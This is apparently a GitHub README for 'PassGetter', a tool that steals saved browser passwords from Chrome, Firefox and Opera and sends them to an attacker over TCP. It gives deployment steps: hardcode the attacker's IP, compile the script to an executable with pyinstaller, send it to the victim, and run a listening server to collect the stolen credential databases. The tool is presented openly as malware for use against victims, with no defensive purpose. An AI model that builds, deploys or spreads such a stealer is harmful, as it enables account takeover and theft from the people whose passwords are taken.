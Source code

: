 # PassGetter
Extract saved passwords of the browsers (i.e Chrome, Firefox, Opera) in the form of .db files and transfer em to the attacker via sockets

## How it works
![alt text](https://media.discordapp.net/attachments/733792205663371286/755806305016610842/image.png)

Basically when u send the file to the victim's computer it processes the system information (OS name) and then it searches for the path to the saved credentials of the browser (look into the code for more info) after that it extracts the data in a .db format and sends it to the attacker via TCP.

## How to make it work

Put the ip address to your machine in _main.py_  on line 82
```
host = "<Your_IP>"
```
Convert the _main.py_ to _.exe_ or a linux binary executable using pyinstaller
```
pyinstaller --path <Path to Python>\Python\Lib\site-packages\pywin32_system32 --onefile main.py
``` 
Then send it to the victim and run the _server.py_ inside the sockets folder
```
python3 server.py
```
and wait for the magic to happen

## Requirements

Make sure to install the requirements before converting it to _.exe_ or else the conversion will fail
```
pip install -r requirements.txt
```

## Credits
<ul>
<li>Firefox Pass Extraction - unode (https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py)</li>
<li>Chrome Pass Extraction - Stackoverflow (https://stackoverflow.com/questions/61099492/chrome-80-password-file-decryption-in-python)</li>
